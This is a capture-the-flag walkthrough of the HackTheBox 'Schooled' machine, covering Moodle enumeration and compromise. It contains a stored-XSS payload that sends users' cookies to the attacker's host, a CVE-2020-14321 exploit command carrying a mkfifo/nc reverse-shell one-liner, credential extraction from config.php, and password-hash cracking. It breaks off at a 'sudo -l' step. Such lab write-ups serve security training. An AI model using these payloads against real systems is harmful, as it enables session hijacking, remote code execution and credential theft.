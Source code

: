 1. Connect the box, get IP.  
2. Run nmap:
    ```bash
    nmap -Pn -A 10.10.10.234
    ```  
    ![](/HackTheBox/images/schooled1.png)  
3. In the bottom of site, we see 'schooled.htb', add that to /etc/hosts.  
    ![](/HackTheBox/images/schooled2.png)  
4. Run gobuster vhost for subdomain search:
    ```bash
    gobuster vhost -u schooled.htb -w /root/tools/dnscan/subdomains-500.txt -z -t 100 
    ```  
    ![](/HackTheBox/images/schooled3.png)  
    Found moodle.schooled.htb, add that to /etc/hosts.  
5. Open moodle.schooled.htb.  
6. Create account, login, join Mathematics course, check Announcements.  
    ![](/HackTheBox/images/schooled4.png)  
7. Go to Edit profile, see the MoodleNet field.  
    Type in 
    ```html
    "><h1>test</h1>
    ```  
    and Update profile, you see this:  
    ![](/HackTheBox/images/schooled5.png)  
    Hence, the site has XSS (Cross-Site Scripting)  
8. Run python server on your machine:
    ```bash
    python3 -m http.server 4443
    ```
9. Type this in MoodleNet area:  
    ```html
    <script>new Image().src="http://10.10.14.7:4443?c="+document.cookie;</script>
    ```
    Wait for a while.  
10. Teacher's cookie comes in the python server. Replace that and you are the teacher now.  
    ![](/HackTheBox/images/schooled6.png)  
    ![](/HackTheBox/images/schooled7.png)  
11. Use this CVE: [CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).  
    Run nc server:
    ```bash
    nc -lnvp 1234
    ```
    Run this command:  
    ```bash
    python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie b2vg6doaecljo3tdro0apnbht2 --cdomain moodle.schooled.htb --cpath '/moodle/' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f'
    ```
    We get reverse shell:  
    ![](/HackTheBox/images/schooled8.png)  
12. Use nc to transfer FreeBSD socat and stabilize shell.  
13. The username and password of mysql are in '/usr/local/www/apache24/data/moodle/config.php'.
    ```User: moodle, DBname: moodle, Password: PlaybookMaster2020```
14. Login to mysql,
    ```bash
    mysql -u moodle -p moodle
    ```
    Enter the password as found above.  
    ![](/HackTheBox/images/schooled9.png)  
15. Run:
    ```mysql
    show tables;
    ```
    to show tables, there is a table named "mdl_user".  
16. Run:
    ```mysql
    describe mdl_user;
    ```
    to show all columns in that table, there is a column named "username" and "password".
17. Run:
    ```mysql
    select email, username, password from mdl_user;
    ```
18. We get the admin's (jamie's) password hash, crack it using john.
    ```
    hash: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    cracked: !QAZ2wsx
    ```
19. Login to jamie's ssh using the password, get 'user.txt'.
20. run sudo -l, get this:
    ![](/HackTheBox/images/schooled10.png)

